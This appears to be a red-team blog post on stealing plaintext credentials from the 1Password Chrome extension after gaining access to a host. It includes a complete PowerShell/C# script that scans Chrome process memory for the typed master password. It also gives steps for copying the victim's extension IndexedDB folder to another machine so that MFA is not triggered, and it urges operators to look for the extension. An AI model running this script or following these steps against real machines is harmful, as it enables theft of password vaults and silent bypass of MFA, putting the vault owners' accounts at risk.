 # **1Password Chrome Extension Post-Ex**


### tl;dr

If an operator lands on a host with the 1Password Chrome Extension it is relatively easy to obtain the plaintext passwords stored in the vault. Using the local indexedDB you can "avoid MFA" (it is by design) on 1Password's Chrome Extension. So with the Master Password of the account it is possible to obtain the plaintext creds/secrets stored in the vault without needing MFA. None of this will be new or groundbreaking, I think it is just an area operators might not be looking. 

### Introduction

Red Teaming boiled down is always: get access -> pivot -> get more access until you get where you need to -> plunder. With everything moving to the magical cloud; browsers, and by proxy browser extensions can become single points of failure. So I wanted to think of ways to make life of post-execution easier in obtaining passwords now that well known methods like cookies/lsass are significantly harder to obtain.

With the [rise in use in password managers](https://www.forbes.com/sites/tonybradley/2024/10/24/password-managers-the-essential-defense-against-todays-cyber-threats/) and the secrets they contained I felt that this would be a good start. I chose 1Password because I am a customer but also have to assume almost all password manager extensions suffer from similar "flaws" as there has to be a way to obtain passwords locally/offline. For example, local KeePass DB's use [DPAPI in memory](https://keepass.info/help/base/security.html) once the safe is unlocked. 

### Obtaining Master Password

Obtaining the Master Password is the most difficult step of this attack chain. You could [install a chrome extension](https://syntax-err0r.github.io/Silently_Install_Chrome_Extension.html) or keylog the host or prompt the user, etc.

For this blog we will be scraping Chrome's memory for a string that often aligns with the MasterPassword once it is entered (again--[not new](https://www.cyberark.com/resources/threat-research-blog/extracting-clear-text-credentials-directly-from-chromium-s-memory) ). In my testing on an up to date Windows 11 and chrome this script/method seems to work more than 80% of the time and is usually preceeded by “p.” but I have seen it elsewhere as well.

![](assets/masterpassword_extract.png)

```
Add-Type -TypeDefinition @"
using System;
using System.Text;
using System.Runtime.InteropServices;

public class MemoryScanner
{
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int dwSize, out int lpNumberOfBytesRead);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern int VirtualQueryEx(IntPtr hProcess, IntPtr lpAddress, out MEMORY_BASIC_INFORMATION lpBuffer, uint dwLength);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool CloseHandle(IntPtr hObject);

    [StructLayout(LayoutKind.Sequential)]
    public struct MEMORY_BASIC_INFORMATION
    {
        public IntPtr BaseAddress;
        public IntPtr AllocationBase;
        public uint AllocationProtect;
        public IntPtr RegionSize;
        public uint State;
        public uint Protect;
        public uint Type;
    }

    public static string ScanMemory(int processId, string searchString, int extraCharacters)
    {
        const int PROCESS_QUERY_INFORMATION = 0x0400;
        const int PROCESS_VM_READ = 0x0010;
        IntPtr processHandle = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, false, processId);

        if (processHandle == IntPtr.Zero)
        {
            return "Failed to open process.";
        }

        IntPtr address = IntPtr.Zero;
        MEMORY_BASIC_INFORMATION mbi;
        byte[] searchBytes = Encoding.Unicode.GetBytes(searchString);

        while (VirtualQueryEx(processHandle, address, out mbi, (uint)Marshal.SizeOf(typeof(MEMORY_BASIC_INFORMATION))) != 0)
        {
            if (mbi.State == 0x1000 && (mbi.Protect & 0x04) != 0) // MEM_COMMIT & readable pages
            {
                byte[] buffer = new byte[(int)mbi.RegionSize];
                int bytesRead;
                if (ReadProcessMemory(processHandle, mbi.BaseAddress, buffer, buffer.Length, out bytesRead) && bytesRead > 0)
                {
                    for (int i = 0; i <= buffer.Length - searchBytes.Length; i++)
                    {
                        bool match = true;
                        for (int j = 0; j < searchBytes.Length; j++)
                        {
                            if (buffer[i + j] != searchBytes[j])
                            {
                                match = false;
                                break;
                            }
                        }
                        if (match)
                        {
                            int totalBytesToExtract = searchBytes.Length + (extraCharacters * 2); // Unicode is 2 bytes per char
                            if (i + totalBytesToExtract > buffer.Length)
                            {
                                totalBytesToExtract = buffer.Length - i; // Ensure we don't go out of bounds
                            }

                            string extractedText = Encoding.Unicode.GetString(buffer, i, totalBytesToExtract);
                            CloseHandle(processHandle);
                            return extractedText;
                        }
                    }
                }
            }
            address = new IntPtr(mbi.BaseAddress.ToInt64() + mbi.RegionSize.ToInt64());
        }

        CloseHandle(processHandle);
        return "String not found.";
    }
}
"@ -Language CSharp

function Search-ProcessMemory {
    param (
        [int]$TargetPID,  # Using a non-reserved variable name
        [string]$SearchString,
        [int]$ExtraCharacters = 20  # Number of extra characters to extract after the match
    )

    $process = Get-Process -Id $TargetPID -ErrorAction SilentlyContinue
    if ($process) {
        Write-Host "Scanning memory of process: $($process.ProcessName) (PID: $($process.Id))"
        $result = [MemoryScanner]::ScanMemory($process.Id, $SearchString, $ExtraCharacters)
        Write-Host $result
    } else {
        Write-Host "Process with PID $TargetPID not found."
    }
}

$chromeProcesses = Get-Process chrome -ErrorAction SilentlyContinue
$SearchString = "Enter your password"

foreach ($proc in $chromeProcesses) {
Search-ProcessMemory -TargetPID $proc.id -SearchString $SearchString -ExtraCharacters 500 }

```

### The Curious Case Of MFA

While perusing 1Passwords [support documents](https://blog.1password.com/should-protect-1password-with-2fa/) on MFA I noticed the line "When turned on, a second factor will be required to add your account on a new device, in addition to your 1Password account password and Secret Key.”. The word “new” was interesting to me. I knew from reversing the extension there was an associated device identifier but what if we can mimic/copy that id? I am sure there is some complicated checks/hashes/etc. that go into it but what I realized was if we copy over the local extension files the chrome extension saw the same device identifier, which means no MFA prompt or alerting to the user. 

Steps to reproduce:

- Install Chrome in fresh VM
- Install the 1Password Extension for Chrome
- Copy over ‘%localappdata%\Google\Chrome\User Data\Default\IndexedDB\chrome-extension_aeblfdkhhhdcdjpifhhbdiojplfjncoa_0.indexeddb.leveldb’ and everything underneath to the VM from the victim's machine 
- Enter in the MasterPassword


### Conclusions

If you are an operator and land on a machine it is worth your while to check to see if '%localappdata%\Google\Chrome\User Data\Default\Extensions\aeblfdkhhhdcdjpifhhbdiojplfjncoa' exists. I also want to be clear--this is not a knock on 1Password as I believe in the product (although it would be nice to add a feature to require MFA at every login). Again, none of this is new or novel or ultimately a vulnerability, we are just abusing legitimate features of software but the payout for an operator could be big. 

### Future Work

I think that once the local DB is decrypted on the victim machine there might be a way to obtain these from the IndexedDB despite the file lock without knowing the MasterPassword

